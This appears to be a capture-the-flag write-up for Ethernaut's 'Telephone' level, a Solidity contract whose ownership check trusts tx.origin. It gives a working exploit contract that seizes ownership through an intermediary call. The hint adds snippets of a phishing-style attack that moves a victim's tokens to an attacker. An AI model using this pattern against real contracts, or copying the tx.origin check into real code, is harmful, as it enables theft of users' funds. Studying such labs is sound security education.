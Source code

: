 # Telephone

Claim ownership of the contract below to complete this level.


```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

## Solution

```
contract TelephoneHack {

  address public owner;
  address public contractAddress;

  constructor() {
    contractAddress = 0x4DEef92Da627A5100DfE65C495D8b0B592700737;
  }


  function callChangeOwner(address _ownerAddress) public returns(bool){
      (bool success, bytes memory returnData) = contractAddress.call(abi.encodeWithSignature("changeOwner(address)", _ownerAddress));
   if (success) {
        return true;
    } else {
        return false;
    }
  }
}
```

### Hint from Ethernaut

While this example may be simple, confusing tx.origin with msg.sender can lead to phishing-style attacks, such as this.

An example of a possible attack is outlined below.

  1. Use tx.origin to determine whose tokens to transfer, e.g.
```
function transfer(address _to, uint _value) {
  tokens[tx.origin] -= _value;
  tokens[_to] += _value;
}
```
  2. Attacker gets victim to send funds to a malicious contract that calls the transfer function of the token contract, e.g.
```
function () payable {
  token.transfer(attackerAddress, 10000);
}
```
3. In this scenario, tx.origin will be the victim's address (while msg.sender will be the malicious contract's address), resulting in the funds being transferred from the victim to the attacker.